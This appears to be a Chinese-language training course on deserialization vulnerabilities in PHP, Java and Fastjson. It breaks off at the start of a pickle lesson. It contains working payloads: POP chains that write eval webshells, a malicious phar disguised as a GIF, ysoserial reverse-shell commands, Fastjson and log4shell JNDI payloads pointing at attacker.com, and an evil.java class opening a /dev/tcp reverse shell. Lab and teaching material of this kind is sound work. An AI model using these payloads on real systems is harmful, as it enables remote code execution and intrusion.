










# 反序列化漏洞详解 —— PHP / Java / Python
> 📚 课程目录


| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | 序列化基础 + PHP 反序列化原理 | 60 min | 手写 PHP POP 链 |
| 第 2 课 | PHP 反序列化进阶 + 靶场复现 | 70 min | 字符串逃逸 / wakeup 绕过 |
| 第 3 课 | Java 反序列化 + ysoserial + Fastjson | 70 min | 用 ysoserial 打 WebLogic |
| 第 4 课 | Python pickle + 防御 + 真实案例 | 40 min | 写出三语言防御 |


> 🎯 **学完本课你应当能做到**：
> 1. 30 秒内识别某接口是否有反序列化风险
> 2. 手写 PHP POP 链触发 RCE
> 3. 用 ysoserial 生成 payload 攻击 Java 应用
> 4. 解释 Fastjson / Jackson / log4shell 的核心原理
> 5. 在 PHP / Java / Python 三种语言实现防御

---

# 🗓️ 第 1 课 · 序列化基础 + PHP 反序列化原理
## 1.1 什么是序列化？
**序列化 (Serialization)** = 把内存中的对象**转换成可存储 / 可传输的字符串/字节流**。  
**反序列化 (Deserialization)** = 反向过程，把字符串/字节流**还原成对象**。




---

## 1.2 为什么要序列化？
| 场景 | 用途 |
| --- | --- |
| Session 存储 | 用户登录信息存到 Redis / 文件 |
| 缓存 | 对象缓存到 Memcache |
| RPC 通信 | 服务间传递对象 |
| 消息队列 | 跨进程传递 |
| Cookie | 客户端保存状态 |
| 持久化 | 对象存到磁盘 |

🎯 **关键认知**：  
只要**用户能控制反序列化的输入**，就是漏洞入口。

---

## 1.3 各语言的序列化格式
| 语言 | 函数 | 格式 |
| --- | --- | --- |
| PHP | `serialize()` / `unserialize()` | 文本格式（人类可读） |
| Java | `ObjectOutputStream` / `ObjectInputStream` | 二进制（魔术头 0xACED0005） |
| Python | `pickle.dumps()` / `pickle.loads()` | 二进制 |
| .NET | `BinaryFormatter` / `JavaScriptSerializer` | 二进制 / JSON |
| Ruby | `Marshal` | 二进制 |
| Node.js | `node-serialize` | JSON 增强 |


---

## 1.4 PHP 序列化格式（必懂）
### 基本格式
```php
class User {
    public $name = "Alice";
    public $age = 20;
}
echo serialize(new User());
```

输出：
```plain
O:4:"User":2:{s:4:"name";s:5:"Alice";s:3:"age";i:20;}
```

### 格式说明
| 标识 | 类型 | 示例 |
| --- | --- | --- |
| `N;` | NULL | `N;` |
| `b:0;` / `b:1;` | boolean | `b:1;` |
| `i:123;` | integer | `i:42;` |
| `d:3.14;` | double | `d:3.14;` |
| `s:N:"value";` | string | `s:5:"Alice";` |
| `a:N:{...}` | array | `a:2:{i:0;s:1:"a";i:1;s:1:"b";}` |
| `O:N:"Class":N:{...}` | object | `O:4:"User":2:{...}` |
| `R:N;` | reference | 引用 |
| `r:N;` | reference（同对象） | 引用 |


### 复杂示例
```php
$data = [
    "user" => "admin",
    "perms" => ["read", "write"],
    "is_admin" => true,
];
echo serialize($data);
```

```plain
a:3:{s:4:"user";s:5:"admin";s:5:"perms";a:2:{i:0;s:4:"read";i:1;s:5:"write";}s:8:"is_admin";b:1;}
```

---

## 1.5 PHP 反序列化漏洞的本质
### 关键概念：魔术方法 (Magic Methods)
PHP 有一些**特殊方法**，在对象生命周期特定时刻**自动调用**：



### 漏洞核心


> 🎯 **核心规则**：  
**如果某个类的 **`__wakeup`** / **`__destruct`** 等魔术方法里有危险操作（eval / system / include），且攻击者能控制对象属性 → RCE。**

---

## 1.6 第一个 PHP 反序列化 PoC
### 漏洞代码
```php
<?php
class FileHandler {
    public $filename;
    public $content;

    public function __destruct() {
        file_put_contents($this->filename, $this->content);   // ❌ 危险
    }
}

// 漏洞点：直接反序列化用户输入
$data = unserialize($_GET['data']);
?>
```

### 攻击 Payload
构造一个 `FileHandler` 对象，让 `filename` 指向 webshell 路径：

```php
class FileHandler {
    public $filename = "/var/www/html/shell.php";
    public $content = '<?php @eval($_POST["cmd"]);?>';
}
echo urlencode(serialize(new FileHandler()));
```

提交：
```plain
http://victim.com/vuln.php?data=<上面的输出>
```

服务端 `unserialize()` → 还原对象 → 程序结束触发 `__destruct` → 写入 webshell。

---

## 1.7 POP 链 (Property-Oriented Programming)
### 什么是 POP 链？
> **POP 链** = 类似 ROP（Return-Oriented Programming），把多个魔术方法 / 函数**串起来**，让一个普通类的反序列化**最终触发危险操作**。
>



### 示例：两跳 POP 链
```php
<?php
class Modifier {
    public $cmd;
    public function __invoke() {                 // 对象被作为函数调用
        system($this->cmd);
    }
}

class Show {
    public $func;
    public function __toString() {               // 对象被转字符串
        $this->func();                            // 调用 $func（如果是对象就触发 __invoke）
        return "x";
    }
}

class Trigger {
    public $obj;
    public function __destruct() {                // 反序列化时自动触发
        echo $this->obj;                          // echo 一个对象 → 触发 __toString
    }
}
```

### 触发链
```plain
Trigger::__destruct
   ↓ (echo $this->obj)
Show::__toString
   ↓ ($this->func())
Modifier::__invoke
   ↓ (system($this->cmd))
RCE！
```

### 构造 Payload
```php
$mod = new Modifier();
$mod->cmd = "id";

$show = new Show();
$show->func = $mod;     // 关键：让 func 是 Modifier 对象

$trig = new Trigger();
$trig->obj = $show;     // 让 obj 是 Show 对象

echo serialize($trig);
```

提交后 → `id` 命令执行。

---

## 1.8 PHP 魔术方法触发时机（必背）
| 方法 | 触发时机 | 利用频率 |
| --- | --- | :---: |
| `__wakeup` | `unserialize()` 后立即调用 | ★★★★★ |
| `__destruct` | 对象销毁（脚本结束 / unset） | ★★★★★ |
| `__toString` | 对象被当作字符串（echo / 字符串拼接） | ★★★★ |
| `__call` | 调用不存在的方法 | ★★★ |
| `__callStatic` | 静态调用不存在的方法 | ★★ |
| `__get` | 访问不存在/受保护的属性 | ★★★ |
| `__set` | 写入不存在/受保护的属性 | ★★ |
| `__invoke` | 对象作为函数调用 | ★★★★ |
| `__sleep` | `serialize()` 时调用 | ★ |
| `__construct` | `new` 时调用 | ★ |


---

## 1.9 第 1 课小结
| 知识点 | 一句话 |
| --- | --- |
| 序列化 | 对象 → 字符串 |
| 反序列化 | 字符串 → 对象 |
| 漏洞本质 | unserialize 用户输入 + 类有危险魔术方法 |
| PHP 格式 | `O:N:"Class":N:{...}` |
| 魔术方法 | __wakeup / __destruct / __toString 等 |
| POP 链 | 多个魔术方法串起来 → RCE |


### 课间实操（10 分钟）
1. PHP 写一个 User 类，serialize 输出看格式
2. 自建漏洞代码（FileHandler），写入 shell.php 验证
3. 把 __destruct 改成 eval，构造直接 RCE 的 POP 链

---

# 🗓️ 第 2 课 · PHP 反序列化进阶 + 靶场复现
## 2.1 __wakeup 绕过（CVE-2016-7124）
### 漏洞描述
> PHP 5.6.25 / 7.0.10 之前版本存在一个 bug：  
当序列化字符串中声明的属性数量**大于实际属性数**时，`__wakeup`** 不会执行**。
>

### 示例
正常：

```plain
O:4:"User":2:{s:4:"name";s:5:"Alice";s:3:"age";i:20;}
```

绕过：

```plain
O:4:"User":3:{s:4:"name";s:5:"Alice";s:3:"age";i:20;}
        ↑ 改成 3 但实际还是 2 个属性
```

→ `__wakeup` 不执行 → 但 `__destruct` 仍会执行（如果利用链是 __destruct 触发的）。

### 利用场景
某些类在 `__wakeup` 中**重置属性**（安全检查）：

```php
public function __wakeup() {
    $this->is_admin = false;   // 反序列化后强制取消管理员
}
```

绕过：跳过 __wakeup → 保留攻击者设置的 `is_admin = true`。

---

## 2.2 字符串逃逸（重要）
### 原理
某些应用反序列化前会对字符串做**替换**（如 `s:5:"hello"` → `s:5:"hi"` 但不变更长度），导致后续字节**错位**，攻击者可注入额外 payload。

### 替换变短示例
```php
$data = $_GET['data'];
$data = str_replace("ab", "x", $data);     // ab(2字符) 替换为 x(1字符)
 unserialize($data);
```

### 构造步骤
```plain
原始：a:1:{s:5:"ababab";s:5:"hello";}
替换后：a:1:{s:5:"xxx";s:5:"hello";}    ← 长度声明还是 5，但实际只有 3 字符
                                          → 反序列化错位
```

攻击者精心设计，让错位**吞掉**正常结构，**注入恶意对象**。

### 替换变长示例
```php
$data = str_replace("x", "xx", $data);     // x(1字符) → xx(2字符)
```

变长攻击：注入大量 `x` 让字符串膨胀，覆盖后面的合法字段。

### 字符串逃逸实操（自建）
```php
<?php
class Evil {
    public $cmd;
    function __destruct() { system($this->cmd); }
}

class Filter {
    public $data;
    function __construct($d) { $this->data = $d; }
}

// 用户输入经过过滤后反序列化
$input = $_GET['data'];
$input = str_replace('v', 'vv', $input);    // 变长
$obj = unserialize($input);
echo $input;
?>
```

构造 payload 让 `v` 膨胀产生的额外字节**正好等于注入的 Evil 对象的序列化字符串长度**。

---

## 2.3 phar 反序列化（重要！）
### 什么是 phar？
> **phar (PHP Archive)** = PHP 的归档文件格式，类似 Java 的 jar。  
内部含 manifest、文件、签名。
>

### phar 漏洞核心


**关键**：phar 文件的 manifest 部分**以序列化格式存储**，PHP 处理 phar 时**会自动反序列化 manifest**。

### 触发 phar 反序列化的函数
```plain
file_exists()        fopen()             file_get_contents()
is_dir()             is_file()           is_link()
stat()               fileatime()         filemtime()
filesize()           filetype()          is_readable()
is_writable()        is_executable()     ...
```

**几乎所有的文件系统函数**都触发！

### 利用场景
如果应用有：

```php
$avatar = $_GET['avatar'];
if (file_exists($avatar)) {     // ❌ 触发 phar 反序列化
    // ...
}
```

攻击者上传一个 `evil.phar`，然后传入 `?avatar=phar://uploads/evil.phar` → 触发反序列化。

### 构造恶意 phar
```php
<?php
class Evil {
    public $cmd = "id";
    public function __destruct() { system($this->cmd); }
}

$phar = new Phar("evil.phar");
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");   // 伪装成图片
$phar->setMetadata(new Evil());
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

上传 evil.phar（伪装成 evil.gif），然后触发：

```plain
?avatar=phar://uploads/evil.gif
```

→ `Evil::__destruct` 触发 → `id` 执行。

---

## 2.4 PHP 内置类的反序列化利用
### SplStack / ArrayObject 等
PHP 内置一些类，反序列化时会触发特殊行为：

```php
// SplFileObject 反序列化后可以读文件
$file = new SplFileObject("/etc/passwd");
echo serialize($file);
// 反序列化时就可以读文件
```

### SoapClient（SSRF）
```php
$soap = new SoapClient(null, [
    'location' => 'http://attacker.com/',
    'uri' => 'test'
]);
$payload = serialize($soap);
```

`SoapClient::__call` 触发时**发起 HTTP 请求** → SSRF。

### 利用：调用不存在的方法触发 __call
```php
class Trigger {
    public $soap;
    public function __call($name, $args) {
        // 调用 SoapClient 的不存在方法 → SSRF
    }
}
```

---

## 2.5 靶场复现 1：pikachu 反序列化
```bash
docker run -d --name pikachu -p 8088:80 area39/pikachu
```

### 关卡：PHP Insecure Deserialize
#### Low 关卡
```plain
http://localhost:8088/vul/unser/unser.php
```

源码（精简）：

```php
class S {
    public $test = "pikachu";
    function __destruct() {
        echo $this->test;
    }
}
$s = @$_GET['s'];
 unserialize($s);
```

**漏洞**：`__destruct` 中 `echo $this->test`，如果 `$test` 是对象 → 触发该对象的 `__toString`。

#### Payload
```plain
?s=O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

→ 反序列化后 `$test` = `<script>alert('xss')</script>` → echo → XSS。

#### 进阶：转 SSRF
```php
class SoapClient2 {
    // 包装 SoapClient 触发 SSRF
}
```

---

## 2.6 靶场复现 2：DVWA File Inclusion（结合 phar）
DVWA 没有专门反序列化关卡，但 **File Inclusion** 关卡可以加载 `phar://`：

```plain
?file=phar://uploads/evil.phar
```

如果上传了一个恶意 phar 文件（伪装图片），可触发反序列化。

---

## 2.7 靶场复现 3：自建完整漏洞链
```bash
mkdir -p /tmp/unser-lab
cat > /tmp/unser-lab/app.php <<'EOF'
<?php
class Cache {
    public $file;
    public $content;
    public function __destruct() {
        // 写文件
        file_put_contents($this->file, $this->content);
    }
}

class Logger {
    public $msg;
    public function __toString() {
        // 写日志（看似无害）
        file_put_contents("/var/log/app.log", $this->msg);
        return "logged";
    }
}

class User {
    public $name;
    public $logger;
    public function __destruct() {
        echo "Bye " . $this->name;     // 如果 name 是对象 → __toString
    }
}

if (isset($_GET['data'])) {
    $obj = unserialize($_GET['data']);
} else {
    echo '<form>data: <input name="data"></form>';
}
EOF

php -S 0.0.0.0:8000 -t /tmp/unser-lab
```

### POP 链分析
```plain
User::__destruct
  → echo $this->name  （如果 name 是 Logger 对象）
Logger::__toString
  → file_put_contents("/var/log/app.log", $this->msg)
```

不能直接 RCE，但可以**写日志到任意路径**（如果路径可控）。

### 找到能写 webshell 的路径
`file_put_contents` 第一个参数硬编码，无法控制路径 → 找别的链。

加入 Cache：

```php
class Cache {
    public $file;
    public $content;
    public function __destruct() {
        file_put_contents($this->file, $this->content);   // 路径可控
    }
}
```

直接构造 Cache 对象：

```php
$c = new Cache();
$c->file = "/tmp/unser-lab/shell.php";
$c->content = '<?php @eval($_POST["c"]);?>';
echo urlencode(serialize($c));
```

提交：

```plain
http://localhost:8000/app.php?data=<上面的输出>
```

访问 `shell.php` → 蚁剑连接。

---

## 2.8 PHP 反序列化挖掘流程


### grep 命令
```bash
# 找反序列化点
grep -rn "unserialize" .

# 找魔术方法
grep -rn "__wakeup\|__destruct\|__toString\|__call\|__invoke" .

# 找 phar 触发点
grep -rn "file_exists\|is_file\|file_get_contents\|fopen" .
```

---

## 2.9 第 2 课小结
| 知识点 | 一句话 |
| --- | --- |
| __wakeup 绕过 | 改属性数量 > 实际（CVE-2016-7124） |
| 字符串逃逸 | 替换变短/变长导致字节错位 |
| phar 反序列化 | phar:// 触发 unserialize manifest |
| phar 触发函数 | file_exists / fopen / file_get_contents 等 |
| SoapClient | 反序列化 → __call → SSRF |
| pikachu | 反序列化 + XSS + SSRF 综合关卡 |


### 课间实操（15 分钟）
1. 完成 pikachu 反序列化关卡
2. 自建漏洞链靶场，写 POP 链生成 webshell
3. 构造恶意 phar 文件，验证 phar:// 触发

---

# 🗓️ 第 3 课 · Java 反序列化 + ysoserial + Fastjson
## 3.1 Java 序列化格式
### 序列化示例
```java
import java.io.*;

public class User implements Serializable {
    String name = "Alice";
    int age = 20;

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(new User());
        byte[] data = bos.toByteArray();
        // data 是二进制字节流
    }
}
```

### 二进制头部
Java 序列化字节流的**前 4 字节固定**：

```plain
AC ED 00 05    ← Java 序列化魔术头 + 版本号
```

十六进制 `aced0005` 是 Java 序列化的特征。

### Base64 编码后
```plain
rO0ABXNyAB5...
```

`rO0AB` 是 `aced0005` 的 Base64 编码 → **也是 Java 序列化特征**。

> 🎯 **检测**：HTTP 请求中看到 `aced0005` 或 `rO0AB` 前缀 → **大概率是 Java 反序列化点**。
>

---

## 3.2 Java 反序列化漏洞核心
### readObject 自动调用
```java
ObjectInputStream ois = new ObjectInputStream(input);
Object obj = ois.readObject();   // ❌ 如果 input 可控 → 漏洞
```

**关键**：`readObject` 在反序列化时**会调用对象类的 **`readObject`** 方法**（如果自定义了）。

```java
class EvilClass implements Serializable {
    private void readObject(ObjectInputStream in) 
            throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec("calc");   // ❌ 反序列化时执行
    }
}
```

### 利用链 (Gadget Chain)
> **Gadget Chain（利用链）** = 类似 PHP POP 链，把多个 Java 类的方法串起来，最终触发 RCE。
>



---

## 3.3 经典利用链：Commons Collections
### Apache Commons Collections
一个非常流行的 Java 工具库。**早期版本（1.x / 3.x）**包含几个类，可以构造出 RCE 利用链。

### CC1 链核心
```plain
Transformer 接口
  ↓
ChainedTransformer（串联多个 Transformer）
  ↓
InvokerTransformer（调用任意方法）
  ↓
Runtime.getRuntime().exec(cmd)
```

### 关键类
| 类 | 作用 |
| --- | --- |
| `Transformer` | 函数式接口 |
| `ChainedTransformer` | 串联多个 |
| `InvokerTransformer` | 反射调用任意方法 |
| `ConstantTransformer` | 返回固定值 |
| `LazyMap` | 触发链 |
| `TiedMapEntry` | 触发链 |


### CC 链触发点
```plain
AnnotationInvocationHandler.readObject
   → 内部 Map.entrySet
   → LazyMap.get
   → ChainedTransformer.transform
   → InvokerTransformer
   → Runtime.exec
```

> 🎯 **关键**：  
攻击者不需要会写这些类，**ysoserial 工具会自动生成 payload**。
>

---

## 3.4 ysoserial 工具实战
### 安装
```bash
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -DskipTests
# 生成 target/ysoserial-0.0.6-SNAPSHOT-all.jar

# 或直接下载 release
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

### 常用利用链
```plain
CommonsCollections1     Apache Commons Collections 3.1
CommonsCollections5     Apache Commons Collections 3.1
CommonsCollections6     Apache Commons Collections 3.1
CommonsCollections7     Apache Commons Collections 3.1
CommonsCollections9     Apache Commons Collections 3.1
CommonsBeanutils1       Apache Commons BeanUtils
Jdk7u21                 JDK 7u21 及以下
Spring1                 Spring
Groovy1                 Groovy
URLDNS                  通用检测（仅触发 DNS，最广适用）
```

### 生成 payload
```bash
# URLDNS 检测（最基础）
java -jar ysoserial.jar URLDNS "http://attacker.com/check" > urldns.bin

# CommonsCollections5 RCE
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,BASE64}|{base64,-d}|{bash,-i}" > cc5.bin

# Base64 形式
java -jar ysoserial.jar -base64 CommonsCollections5 "id"
```

### URLDNS 利用链（必懂）
**特点**：

+ 不依赖任何第三方库
+ 仅依赖 JDK 自带的 `URL` 类
+ 只能触发 DNS 查询，不能 RCE
+ **用于检测反序列化漏洞是否存在**

```plain
HashMap.readObject
   → URL.hashCode
   → URLStreamHandler.hashCode
   → InetAddress.getByName → DNS 查询
```

### 检测流程
1. 用 Burp Collaborator / ceye.io 生成一个域名
2. 用 ysoserial 生成 URLDNS payload
3. 提交到目标接口
4. 看 DNS 记录是否命中

命中 → 确认有反序列化漏洞。

---

## 3.5 攻击 Java 应用流程
### 找反序列化点
```plain
□ POST body 中含 aced0005 / rO0AB 前缀
□ Content-Type: application/x-java-serialized-object
□ Content-Type: application/octet-stream
□ WebLogic T3 协议（端口 7001）
□ JNDI 接口
□ RMI 接口
□ JMX 接口
```

### 攻击步骤


---

## 3.6 靶场复现 1：vulhub WebLogic
### 启动
```bash
cd vulhub/weblogic/CVE-2018-2628
docker-compose up -d
# WebLogic 监听 7001
```

### T3 协议
WebLogic T3 协议默认监听 7001，**接受序列化对象** → 反序列化漏洞。

### 利用工具
```bash
# nmap 检测
nmap -p 7001 --script weblogic-t3-info target

# python exploit
git clone https://github.com/jas502n/2018-2628.git
python 2018-2628.py
```

### 简化流程
1. 用 ysoserial 起一个 JRMP Listener
2. 向 WebLogic T3 端口发送恶意序列化数据
3. WebLogic 反序列化 → 连接攻击者 JRMP
4. 攻击者返回 RCE payload
5. WebLogic 执行命令

```bash
# 攻击者机器
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 Jdk7u21 "bash -c {echo,base64}|{base64,-d}|{bash,-i}"
```

---

## 3.7 Fastjson 反序列化（重点！）
### 什么是 Fastjson？
阿里巴巴开源的 JSON 解析库，国内 Java 项目广泛使用。

### Fastjson 反序列化漏洞核心
```java
String json = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://attacker/evil\",\"autoCommit\":true}";
Object obj = JSON.parse(json);   // ❌ 反序列化时根据 @type 加载任意类
```

**关键**：Fastjson 通过 `@type` 字段**允许 JSON 中声明任意 Java 类**，反序列化时**自动加载并调用其 setter 方法**。

### 利用链：JdbcRowSetImpl（JNDI 注入）


### Payload 模板
```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://attacker.com:1389/evil",
    "autoCommit": true
}
```

或：

```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://attacker.com:1099/evil",
    "autoCommit": true
}
```

### 启动恶意 LDAP / RMI 服务
```bash
# marshalsec 工具
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec && mvn package
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker.com:8080/#evil"
```

攻击者 HTTP 服务器提供 evil.class：

```bash
# 准备 evil.java（含 static 块执行命令）
cat > evil.java <<'EOF'
public class evil {
    static {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/attacker/4444 0>&1"});
        } catch (Exception e) {}
    }
}
EOF
javac evil.java
python3 -m http.server 8080
```

---

## 3.8 Fastjson 版本演进
| 版本 | 漏洞 | 防御 |
| --- | --- | --- |
| < 1.2.24 | CVE-2017-18349 任意类反序列化 | 无 |
| 1.2.24 ~ 1.2.47 | autoType 黑名单 | 黑名单被绕过 |
| 1.2.47 | 黑名单绕过 | 引入 checkAutoType |
| 1.2.68 | safeMode 引入 | 推荐开启 |
| 1.2.80+ | 修复多个绕过 | 持续更新 |


### 防御建议
```java
// 开启 safeMode（1.2.68+）
ParserConfig.getGlobalInstance().setSafeMode(true);

// 升级到最新版
// 禁用 autoType
ParserConfig.getGlobalInstance().setAutoTypeSupport(false);
```

---

## 3.9 Jackson / log4shell 简介
### Jackson
类似 Fastjson 的 JSON 库，也有 `@class` / `@type` 反序列化漏洞：

```json
{"@class":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://attacker/evil","autoCommit":true}
```

防御：开启 `DefaultTyping` 限制 / 禁用。

### log4shell (CVE-2021-44228)
> **log4j2 JNDI 注入**。本质上也是反序列化攻击。
>

```java
log.info("${jndi:ldap://attacker.com/evil}");
```

攻击者只要让目标记录一条含 JNDI 表达式的日志：

```http
User-Agent: ${jndi:ldap://attacker.com/evil}
```

→ log4j2 解析 → 加载远程恶意类 → RCE。

> 📖 详见 log4shell 专题，本课不展开。
>

---

## 3.10 Java 反序列化漏洞挖掘清单
```plain
□ POST body 中 aced0005 / rO0AB
□ WebLogic / WebSphere / JBoss / Tomcat 端口
□ T3 协议（7001）
□ RMI（1099）
□ JMX（各种端口）
□ JNDI 接口
□ Java Swagger UI
□ Spring Boot Actuator
□ JSON 接口含 @type / @class
□ Fastjson 1.2.x
□ Jackson DefaultTyping
□ XML 配置 XStream
```

---

## 3.11 第 3 课小结
| 知识点 | 一句话 |
| --- | --- |
| Java 序列化头部 | aced0005 或 rO0AB（Base64） |
| readObject 自动调用 | 自定义 readObject 反序列化时执行 |
| Commons Collections | Apache CC 链 RCE |
| ysoserial | 自动生成 payload 工具 |
| URLDNS | 通用检测链，仅 DNS |
| WebLogic T3 | 经典反序列化入口 |
| Fastjson @type | JSON 中声明任意类 → 加载 → setter 调用 |
| JdbcRowSetImpl | JNDI 注入利用链 |
| marshalsec | 启动恶意 LDAP/RMI 服务 |


### 课间实操（15 分钟）
1. vulhub 启动 WebLogic CVE-2018-2628
2. 用 ysoserial 生成 URLDNS payload，用 ceye.io 检测
3. vulhub 启动 Fastjson 1.2.24 反序列化靶场，用 JdbcRowSetImpl 触发 JNDI

---

# 🗓️ 第 4 课 · Python pickle + 防御 + 真实案例
## 4.1 Python pickle 序列化
### 基本用法
```python
import pickle

data = {"user": "admin", "is_admin": True}
serialized = pickle.dumps(data)
# b'\x80\x04\x95...\x01}\x94...'

